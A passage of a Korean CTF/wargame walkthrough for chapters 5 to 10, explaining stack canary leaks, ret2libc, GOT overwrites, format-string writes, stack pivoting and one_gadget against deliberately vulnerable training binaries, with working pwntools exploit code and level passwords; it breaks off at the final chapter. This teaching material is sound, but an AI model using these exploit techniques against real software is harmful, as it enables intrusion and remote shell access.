

버퍼와 카나리가 스택의 어디에 있는지는 gdb로 확인한다. `disass IPS`는 함수를 어셈블리로 풀어 보여주는데, 변수에 접근하는 `lea`/`mov` 명령의 `rbp-0x..` 오프셋을 읽으면 각 변수의 위치를 알 수 있다.

- username: `rbp-0x80`, passwd: `rbp-0x40` (gdb `disass IPS`의 두 read 지점).
- 카나리: `rbp-0x8` (`mov rax, fs:0x28; mov [rbp-0x8], rax`).
- passwd(`rbp-0x40`) 기준으로 카나리까지 56바이트, 저장된 rbp까지 64, 복귀 주소까지 72.
- 복귀시킬 주소: `IPS()` 안의 인증 성공 분기(Access granted → return 0) = `0x401981`.

### 4. Exploit

익스플로잇은 pwntools로 짠다. `sendafter(b"프롬프트", data)`는 그 프롬프트가 출력될 때까지 기다렸다가 `data`를 보내고, `recvuntil`은 특정 문자열까지 받아 온다. `u64`는 받은 8바이트를 정수(주소)로 바꾸고, `p64`는 반대로 정수를 8바이트로 포장한다.

1번째 시도 — 카나리 leak:

```python
p.sendafter(b"Username: ", b"A"*64)      # username을 passwd 자리까지 채움
p.sendafter(b"Password: ", b"A"*57)      # 56까지 패딩 + 57번째로 카나리의 \x00을 덮음
p.recvuntil(b"A"*(64+57))
canary = u64(b"\x00" + p.recv(7))        # 흘러나온 7바이트 + 알려진 \x00로 복원
```

2번째 시도 — 일부러 실패(count를 2로):

```python
p.sendafter(b"Username: ", b"A")
p.sendafter(b"Password: ", b"A")
```

3번째 시도 — 복귀 주소 덮기:

```python
p.sendafter(b"Username: ", b"A"*64)
p.sendafter(b"Password: ", b"A"*56 + p64(canary) + p64(1) + p64(0x401981))
```

패딩 56 뒤에 복원한 카나리를 넣어 검사를 통과시키고, 저장된 rbp 자리에는 더미 값을 둔 뒤 복귀 주소를 `0x401981`로 덮는다.

### 5. 클리어



세 번째 시도까지 끝나면 `while` 루프를 빠져나오며 30초 카운트다운이 돈다(`for(i=30; i>0) sleep(1)`). 이 카운트다운이 끝나야 `return`이 실행되고, 복원한 카나리 덕분에 검사를 통과해 복귀 주소(`0x401981`)로 점프한다. 30초를 기다리면 다음 단계 권한의 셸이 떨어지고, `status`로 Chapter 6 비밀번호 `i_wA5_A_bos5...`를 확인한다.

---

## Chapter 6 — Crisis_at_the_Vault

### 먼저 알아둘 개념 — libc 주소 leak

ch4에서는 메뉴가 친절하게 `read` 주소를 알려줘서 libc base를 구했다. 하지만 보통은 그런 출력이 없으니 스택에 남아 있는 libc 주소를 직접 흘려 읽어야 한다. 함수가 호출될 때 스택에는 "돌아갈 주소"가 저장되는데 `main`이 돌아갈 주소는 libc 안을 가리킨다. 오버플로우로 출력 함수(`puts`)가 이 저장된 주소까지 출력하게 만들면 libc 주소가 새어 나오고 거기에 libc 안의 고정 오프셋을 빼면 base가 나온다.

이 챕터는 ch5의 카나리 우회와 ch4의 ret2libc를 합치고 그 사이에 이 libc leak을 끼워 넣는다. 카나리든 libc 주소든 "스택 값을 출력으로 흘려 읽는다"는 같은 원리를 쓴다.

### 1. 대상 분석

**코드 확인**



```c
char page1[], page2[], ... page5[], hidden[];                 // 스택의 작은 지역 버퍼들
char* diary[] = {page1, page2, page3, page4, page5, hidden};  // 그 버퍼들을 가리키는 포인터 배열

// 메뉴 1: read diary
scanf("%d", &index);
if (index >= 6 || index < 0) { puts("invalid index"); continue; }
puts(diary[index]);              // 널 전까지 출력 → leak 수단

// 메뉴 2: write diary
read(0, diary[index], 0x100);    // 작은 버퍼에 256바이트 → 오버플로우
```

메뉴 2는 작은 스택 버퍼(`pageN`)에 256바이트를 읽어 넣어 오버플로우가 난다. 인덱스가 0~5인지는 검사하지만, 버퍼 내용이 넘치는 것은 막지 않는다. 메뉴 1은 `puts(diary[index])`로 버퍼를 출력하는데, 오버플로우로 버퍼의 널을 밀어 두면 인접한 스택 값(카나리나 libc 주소)이 딸려 나온다. 이 출력이 leak 통로다. page5(index 4) 하나를 길이만 바꿔가며 세 번 쓴다.

**보호기법 확인 (checksec)**



64비트, No PIE(함수 주소 고정), Partial RELRO, Canary, NX. 카나리가 있어 Chapter 5의 우회가 필요하고, No PIE지만 바이너리 안에 쓸 가젯이 부족해 libc 가젯을 쓴다. 그래서 libc 주소도 알아내야 한다.

### 2. Exploit 아이디어

크게 두 단계다. 먼저 필요한 값(카나리, libc 주소)을 흘려 읽고, 그다음 ret2libc 체인을 올린다.

- 카나리 leak: page5를 카나리의 `\x00` 바로 앞까지 채우고 한 바이트 더 써서 그 널을 덮는다. `puts`가 카나리까지 출력하니 7바이트가 새고, 아래 `\x00`을 붙여 복원한다. (Chapter 5와 같은 방법이다.)
- libc 주소 leak: 더 길게 덮어 `main`의 복귀 주소(= libc 안으로 돌아가는 주소)까지 `puts`로 긁는다. 이 주소에서 libc 안의 고정 오프셋을 빼면 libc base가 나온다.
- ret2libc: 복원한 카나리와 함께 `pop rdi → "/bin/sh" → system` 체인을 `main` 복귀 주소에 올린다. (Chapter 4와 같은 구조다.)

### 3. 필요한 정보 확인

- 카나리까지 패딩: 152바이트 (153번째가 카나리의 `\x00`을 덮음).
- libc 복귀 주소까지: 152(카나리 앞) + 8(카나리) + 8(저장된 rbp) = 168바이트.
- libc base: `leaked - 0x29d90` (leak한 복귀점의 libc 내 오프셋. libc 버전마다 다르니 leak 값으로 확인).
- 가젯/문자열은 libc에서 검색: `pop rdi; ret`, 단독 `ret`(정렬용), `"/bin/sh"`, `system`.

### 4. Exploit

카나리와 libc를 각각 leak:

```python
# 카나리 leak
wp(4, b'A'*153); rp(4)
canary = u64(b'\x00' + p.recv(7))

# libc leak
wp(4, b'A'*168); rp(4)
leaked = u64(p.recv(6).ljust(8, b'\x00'))
libc.address = leaked - 0x29d90
```

ret2libc 체인을 올리고 메뉴 3으로 `main` 복귀를 트리거:

```python
pay = b'A'*152 + p64(canary) + p64(0) + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
wp(4, pay)
p.sendlineafter(b'> ', b'3')     # 메뉴 3 = break → main return → 체인 발동
```

### 5. 클리어



leak 값에 널바이트가 끼면 가끔 실패하므로 여러 번 시도한다. 성공하면 다음 단계 권한의 셸이 떨어지고, `id`로 권한을 확인한 뒤 `status`로 Chapter 7 비밀번호 `anchovy`를 확인한다.

---

## Chapter 7 — Wired_at_the_Vault

### 먼저 알아둘 개념 — GOT 덮어쓰기와 임의 쓰기

프로그램이 `puts`나 `system` 같은 라이브러리 함수를 부를 때 그 실제 주소는 GOT(Global Offset Table)라는 표에 적혀 있고 호출은 이 표를 거쳐 간다. 그래서 GOT에 적힌 주소를 다른 주소로 바꿔치기하면 그 함수를 부르는 순간 엉뚱한 곳으로 점프시킬 수 있다. 다만 RELRO라는 보호 기법이 이 표를 읽기 전용으로 잠그는데 이 바이너리는 Partial RELRO라서 아직 GOT를 덮어쓸 수 있다.

덮어쓰는 수단은 임의 쓰기(OOB write)다. 배열 인덱스에 경계 검사가 없으면 음수 인덱스 같은 걸로 원하는 주소에 원하는 값을 쓸 수 있다. 이 챕터는 그걸로 카나리가 틀렸을 때 부르는 `__stack_chk_fail`의 GOT를 `ret`로 덮어서 카나리 검사 자체를 무력화한다. 값을 몰라도 검사를 건너뛰게 만드는 것이라 ch5·6의 "leak해서 복원"과는 다른 접근이다. GOT 주소는 `objdump -R`로 확인한다.

### 1. 대상 분석

**코드 확인**



```c
unsigned long long wire[100];        // 전역 배열 (주소 고정, No PIE)

void startup(){
    char wish[0x100];                // 256바이트
    read(0, wish, 0x200);            // 512바이트 읽음 → 스택 오버플로우
}

int main(){
    if (select == 1){                 // Re-map ecu
        scanf("%d", &select);         // 인덱스 (경계 검사 없음)
        scanf("%llu", &wire[select]); // 임의 인덱스에 임의 8바이트 = 임의 쓰기
    } else if (select == 2){ startup(); }
}
```

취약점이 둘이다. 하나는 `wire[select]`에 경계 검사가 없어 원하는 주소에 원하는 8바이트를 쓸 수 있는 임의 쓰기(OOB write)다. 다른 하나는 `startup()`의 `wish[0x100]`에 512바이트를 읽어 생기는 스택 오버플로우다.

**보호기법 확인 (checksec)**



64비트, No PIE, Partial RELRO, Canary, NX. 여기서 중요한 것은 Partial RELRO다. GOT(함수 주소표)를 덮어쓸 수 있어, 이게 이번 공격의 전제가 된다.

### 2. Exploit 아이디어

카나리가 틀리면 `startup()` 끝에서 `__stack_chk_fail`을 부른다. 임의 쓰기로 이 함수의 GOT를 `ret`(아무것도 안 하고 바로 돌아가는 명령)로 덮어 두면, 카나리가 깨져도 그 호출이 무시되고 바로 다음으로 넘어간다. 즉 카나리 값을 몰라도 검사를 통과한 것과 같아진다.

그 뒤는 Chapter 6과 비슷하다. `startup()`의 스택 오버플로우로 ROP를 올려 `puts(puts@got)`로 libc 주소를 흘려 읽어 libc base를 구하고, 다시 ret2libc로 `system("/bin/sh")`를 실행한다.

### 3. 필요한 정보 확인



- `wire`: 0x404080, `__stack_chk_fail@got`: 0x404020.
- OOB 인덱스: `(0x404020 - 0x404080) / 8 = -12` (wire 기준 음수 인덱스로 GOT에 쓴다).
- `wish`: `rbp-0x110` → 복귀 주소까지 0x118(280)바이트.
- `pop rdi; ret`·단독 `ret` 가젯은 pwntools `ROP(elf)`로 탐색.

### 4. Exploit

1단계 — 카나리 검사 무력화:

```python
IDX = (elf.got['__stack_chk_fail'] - elf.sym['wire']) // 8   # -12
got_write(IDX, RET)      # __stack_chk_fail@got = ret 가젯
```

2단계 — libc leak:

```python
overflow(b'A'*0x118 + p64(POP_RDI) + p64(PUTS_GOT) + p64(PUTS_PLT) + p64(MAIN))
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.sym['puts']
```

`puts(puts@got)`로 libc의 puts 실제 주소를 출력시켜 libc base를 구하고, 체인 끝을 `main`으로 돌려 다시 입력 기회를 만든다.

3단계 — system("/bin/sh"):

```python
binsh = next(libc.search(b'/bin/sh\x00'))
overflow(b'A'*0x118 + p64(POP_RDI) + p64(binsh) + p64(RET) + p64(libc.sym['system']))
```

### 5. 클리어



실행하면 셸이 떨어진다. `id`로 권한을 확인하고 `status`로 Chapter 8 비밀번호 `goat_got_got`를 확인한다.

---

## Chapter 8 — Awakening_in_the_Dark

### 먼저 알아둘 개념 — 포맷 스트링 버그

`printf(buf)`처럼 사용자 입력을 포맷 문자열 자리에 그대로 넣으면 문제가 생긴다. 입력에 `%p`, `%x`, `%s`를 넣으면 `printf`가 스택 값을 꺼내 출력하고(임의 읽기 → leak) `%n`을 넣으면 그때까지 출력한 글자 수를 지정한 주소에 써 준다(임의 쓰기). 포맷 스트링 버그 하나로 읽기와 쓰기가 다 되는 셈이다.

이 챕터는 그 `%n`으로 ch7처럼 GOT를 덮는다. 다른 점은 덮는 수단이 OOB write가 아니라 포맷 스트링이라는 것이다. 덮을 대상은 `printf` 바로 다음에 호출되는 `strstr`의 GOT이고 이걸 숨어 있는 win 함수 주소로 바꿔서 flag를 출력시킨다.

### 1. 대상 분석

**코드 확인**



```c
void open_emergency_medicine(){      // WIN — 호출되지 않는다. flag를 읽어 출력
    char buf[30]; int fd = open("flag", O_RDONLY);
    read(fd, buf, 20); printf("%s\n", buf);
}

int main(){
    // case 1: search
    read(0, buf, 0x9f);
    printf(buf);                     // 포맷 지정자 없이 사용자 입력을 포맷으로 → 포맷 스트링 버그
    if (strstr(buf, "Painkiller") || ...) ...   // printf 바로 다음에 strstr 호출
}
```

`printf(buf)`는 사용자 입력을 그대로 포맷 문자열로 넘긴다. 포맷 스트링 버그라 `%p`로 임의 읽기, `%n`으로 임의 쓰기가 된다. flag를 읽어 출력하는 `open_emergency_medicine()`은 어디서도 호출되지 않으니, 코드 포인터를 덮어 강제로 실행시켜야 한다.

**보호기법 확인 (checksec)**



64비트, No PIE, Partial RELRO, Canary, NX. Partial RELRO라 GOT를 덮어쓸 수 있다.

### 2. Exploit 아이디어

`printf(buf)` 바로 다음 줄이 `strstr(buf, ...)`다. 그래서 `strstr@got`를 win 함수 주소로 덮어 두면, 그 `strstr` 호출이 곧바로 `open_emergency_medicine()`으로 점프해 flag가 출력된다.

GOT를 덮는 수단은 포맷 스트링의 `%n`이다. `%n`은 그때까지 출력한 글자 수를 지정한 주소에 써 준다. 출력 글자 수를 win 주소의 하위 값에 맞추고, 쓸 주소로 `strstr@got`를 지정한다.

### 3. 필요한 정보 확인

- `strstr@got`: 0x404060, win(`open_emergency_medicine`): 0x401256.
- 쓸 값: win의 하위 2바이트 `0x1256`. strstr@got가 아직 PLT 스텁이라 상위 바이트는 이미 맞아 있어서, 하위 2바이트만 바꾸면 된다.
- 포맷 인자 슬롯: `%10$`(buf+16)에 쓸 주소가 오도록 패딩을 맞춘다(테스트로 찾음).

### 4. Exploit

```python
payload  = ('%%%dc' % 0x1256).encode() + b'%10$hn'   # 0x1256글자 출력 → 10번째 인자에 2바이트 쓰기
payload  = payload.ljust(16, b'A')                     # 쓸 주소가 buf+16(슬롯 10)에 오게 패딩
payload += p64(0x404060)                               # 슬롯 10 = strstr@got
```

`%1256c`로 0x1256글자를 출력시키고 `%10$hn`으로 그 수(0x1256)를 `strstr@got` 하위 2바이트에 쓴다(`hn`=2바이트). 입력에 `Painkiller` 같은 문자열은 피한다(들어가면 다른 분기로 빠진다).

### 5. 클리어



`printf` 직후 `strstr` 호출이 win으로 점프하고, `open_emergency_medicine()`이 flag를 출력한다. 이 값이 Chapter 9 비밀번호(`fsbeeee`)다.

> 참고: 출력되는 flag가 `fsbeeee`처럼 랜덤한 문자열이라 깨진 값으로 착각하기 쉽지만, 이게 진짜 다음 비밀번호다.

---

## Chapter 9 — On_the_Edge_of_Time

### 먼저 알아둘 개념 — 스택 피벗

지금까지는 오버플로우로 복귀 주소 뒤에 ROP 체인을 길게 쌓았다. 그런데 덮을 공간이 좁으면 체인이 다 들어가지 않는다. 이럴 때 스택 포인터(RSP)를 내가 제어할 수 있는 넓은 영역으로 옮겨서 거기서 긴 체인을 실행하는 기법을 스택 피벗이라고 한다. 보통 `leave; ret` 같은 명령으로 RSP를 원하는 주소로 이동시킨다.

이 바이너리는 입력이 좁은 데다 Full RELRO라서 GOT도 못 덮는다(ch7·8 방법을 못 쓴다). 그래서 쓰기 가능한 BSS 영역으로 피벗한 뒤 거기서 `read`를 다시 불러 긴 체인을 새로 읽어 넣고 libc를 leak해 ret2libc로 간다.

### 1. 대상 분석

**코드 확인**



```c
int loop = 0;

void gadget() {              // 출제자가 심어 둔 ROP 가젯
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}

int main(void){
    char buf[0x30];                     // 48바이트
    if (loop){ puts("Goobye, Sir"); exit(-1); }  // 두 번째 진입은 바로 종료
    loop = 1;
    read(0, buf, 0x70);                 // 112바이트 → 64바이트 오버플로우
    return 0;                           // leave; ret
}
```

`buf`는 48바이트인데 `read`는 112바이트를 받아 64바이트 오버플로우가 난다. 하지만 복귀 주소 뒤로 남는 공간이 7칸뿐이라, leak하고 반응해서 공격하는 2단계를 한 번에 넣을 수 없다. `loop` 전역 때문에 `main`에 다시 들어가 두 번째 입력을 받을 수도 없다.

**보호기법 확인 (checksec)**



No canary, NX, No PIE(주소 고정), Full RELRO. Full RELRO라 GOT는 못 덮으니 libc를 leak해 ret2libc로 가야 한다. CET(SHSTK/IBT)가 켜져 있지만 이 에뮬 환경에서는 강제되지 않아 ROP가 통한다.

### 2. Exploit 아이디어

좁은 공간과 재진입 차단을 스택 피벗으로 푼다. saved RBP를 쓰기 가능한 BSS 영역 주소로 덮고, `main`이 끝날 때의 `leave; ret`로 스택 포인터(RSP)를 BSS로 옮긴다. 그러면 BSS가 새 스택이 된다.

피벗한 뒤에는 ROP로 `read`를 직접 호출한다. `main`을 거치지 않으니 `loop` 검사를 피할 수 있고, BSS에 훨씬 긴 체인을 다시 읽어 넣어 공간 제약을 없앤다. 거기서 `puts(puts@got)`로 libc를 leak하고, 마지막으로 `system("/bin/sh")`를 실행한다.

### 3. 필요한 정보 확인



- 가젯: `pop rdi; ret` 0x4011e5, `pop rsi; pop r15; ret` 0x4011e7, `pop rdx; ret` 0x4011eb, `leave; ret` 0x40127b.
- `read@plt`·`puts@plt`·`puts@got`, 그리고 피벗 목적지 `BSS`(`elf.bss(0xe00)`).

### 4. Exploit

세 단계로 보낸다. 1단계는 `read`를 다시 불러 2단계를 BSS에 읽어 넣고 그쪽으로 피벗한다.

```python
# Stage 1 — read 재호출 + BSS로 피벗 (정확히 0x70)
s1  = b'A'*0x30
s1 += p64(BSS)                               # saved RBP = 피벗 목적지
s1 += p64(POP_RDI) + p64(0)
s1 += p64(POP_RSI_R15) + p64(BSS) + p64(0)
s1 += p64(READ_PLT)                          # read(0, BSS, rdx) — rdx는 main이 남긴 0x70 재활용
s1 += p64(LEAVE_RET)                         # RSP를 BSS로 피벗
```

```python
# Stage 2 — BSS에서 libc leak + 3단계 읽기
s2  = p64(0)                                 # 피벗의 pop rbp가 소비할 더미
s2 += p64(POP_RDI) + p64(PUTS_GOT) + p64(PUTS_PLT)   # puts(puts@got) → libc leak
s2 += p64(POP_RDI) + p64(0) + p64(POP_RSI_R15) + p64(DEST) + p64(0)
s2 += p64(POP_RDX) + p64(0x100) + p64(READ_PLT)
# leak 수신 후: libc.address = leak - libc.sym['puts']
```

```python
# Stage 3 — 쉘
s3 = p64(POP_RDI) + p64(binsh) + p64(libc.sym['system'])   # system("/bin/sh")
```

Stage 1에서 `read`를 부를 때 길이(rdx)를 따로 세팅하지 않는 것이 포인트다. `main`의 `read(0, buf, 0x70)`가 남긴 rdx=0x70을 그대로 쓰면, 가젯 한 칸을 아껴 payload를 딱 0x70에 맞출 수 있다.

### 5. 클리어



세 단계를 차례로 보내면 libc base가 정해지고 `system("/bin/sh")`가 실행돼 셸이 떨어진다(uid 510). `status`로 Chapter 10 비밀번호 `bss_is_useful`을 확인한다.

---

## Chapter 10 — final (The_Cure_Within_Reach)

### 먼저 알아둘 개념 — one_gadget

one_gadget은 libc 안에서 몇 가지 조건만 맞으면 한 줄로 `/bin/sh`를 띄워 주는 코드 조각이다. `pop rdi → "/bin/sh" → system`처럼 체인을 엮지 않고 그 주소 하나로 점프하면 셸이 뜬다. 대신 "특정 레지스터나 메모리가 NULL이어야 한다" 같은 제약이 붙어서 복귀하는 시점의 상태가 그 조건을 만족해야 한다. 후보 주소와 제약은 `one_gadget` 도구로 뽑는다.

이 챕터는 마지막답게 보호 기법이 전부 켜져 있어서(Full RELRO·카나리·NX·PIE) 앞에서 배운 걸 총동원한다. 포맷 스트링으로 필요한 주소를 전부 흘려 읽고(ch8의 읽기) 오버플로우로 복귀 주소를 덮되(ch1~7) 체인 대신 one_gadget 하나를 올린다. 중요한 건 one_gadget 주소가 libc 빌드마다 다르다는 점이라서 다른 환경에서 나온 숫자가 아니라 내 libc에서 직접 뽑아야 한다.

### 1. 대상 분석

**코드 확인**



```c
char check_passwd(char *passwd, int mode){   // passwd = main의 password 버퍼
    read(0, passwd, 100);                     // password[0x40]인데 100바이트 → main 프레임 오버플로우
    ...
}
int main(){
    char id_number[64]; char password[0x40];
    do {
        int chk = check_id(id_number);
        switch(chk){
        case 2: /* Doctor */ chk_pw = check_passwd(password, 2); break;  // 오버플로우 경로
        case 3: printf(id_number); ... break;  // 포맷 스트링 버그 → stdout으로 leak
        }
        if(++count == 3){ puts("BOOM!! Find your ID"); return 0; }  // 세 번째에 main 복귀
    } while(1);
}
```

취약점이 둘이다. 알려진 ID가 아니면(`case 3`) `printf(id_number)`가 사용자 입력을 포맷 문자열로 출력해 스택을 흘린다(leak 통로). 그리고 `check_passwd`의 `read(0, password, 100)`은 `password`가 main의 지역변수라, 64바이트 버퍼에 100바이트를 받아 main의 스택 프레임을 넘친다(쓰기 수단). 소스에 있는 `gadget()` 함수는 쓰지 않는다.

**보호기법 확인 (checksec)**



Full RELRO, Canary, NX, PIE가 전부 켜져 있다. GOT는 못 덮고(Full RELRO), 카나리를 넘어야 하고(Canary), 코드·가젯 주소가 랜덤(PIE)이라 libc도 알아내야 한다. 즉 카나리·libc·스택 주소를 전부 런타임에 leak해야 한다.

### 2. Exploit 아이디어

do-while 루프를 세 바퀴 돌며 처리한다.

- 1바퀴(leak): `case 3`을 유도해 포맷 스트링으로 카나리·libc·스택 주소를 한 번에 흘려 읽는다.
- 2바퀴(오버플로우): ID를 `Doctor`로 넣어 `check_passwd`로 들어가고, 100바이트 입력으로 main의 복귀 주소를 덮는다. 카나리 자리에는 1바퀴에서 읽은 값을 그대로 넣어 검사를 통과시키고, 복귀 주소에는 one_gadget을 둔다.
- 3바퀴(트리거): 아무 ID나 넣어 count를 3으로 만든다. 그러면 main이 `return`하면서 덮어 둔 one_gadget으로 점프해 `/bin/sh`가 실행된다.

one_gadget은 조건만 맞으면 한 줄로 셸을 띄워 주는 libc 안의 코드다. 복귀 주소에 직접 써 두고, saved RBP를 main의 rbp로 맞춰 one_gadget이 참조하는 자리(argv·envp)가 main 프레임의 빈 영역에 오게 한다.

### 3. 필요한 정보 확인



- leak: `%6$p`(스택/argv), `%31$p`(카나리), `%33$p`(libc). `libc_base = %33 - 0x29d90`, `main_rbp = %6 - 0x118`.
- 오버플로우 패딩: password가 `rbp-0x50`, 카나리가 `rbp-0x8`이라 패딩은 0x48. 그 뒤로 카나리, saved RBP(=main_rbp), 복귀 주소(one_gadget) 순으로 0x60바이트.
- one_gadget: 다른 환경에서 나온 값을 그대로 쓰면 안 된다. one_gadget 주소는 libc 빌드마다 달라서, 이 VM의 libc(Ubuntu GLIBC 2.35-0ubuntu3.18)에 맞는 값을 직접 뽑아야 한다. `one_gadget`으로 이 libc의 후보를 뽑고, gdb로 main 복귀 직전의 레지스터 상태를 확인해 제약이 맞는 것을 고른다. (여기서는 `rax`와 `[rbp-0x70]`이 NULL이라 그 조건을 쓰는 `libc + 0xebc83`이 맞았다.)

### 4. Exploit

```python
# 1바퀴: leak
send(b'%6$p.%31$p.%33$p')
sl, canary, ll = parse()
libc = ll - 0x29d90
main_rbp = sl - 0x118
og = libc + 0xebc83

# 2바퀴: Doctor → 오버플로우
send(b'Doctor')
send(b'A'*0x48 + p64(canary) + p64(main_rbp) + p64(og))   # 0x60 ≤ 100

# 3바퀴: 트리거
send(b'A')   # count==3 → main return → one_gadget
```

### 5. 클리어

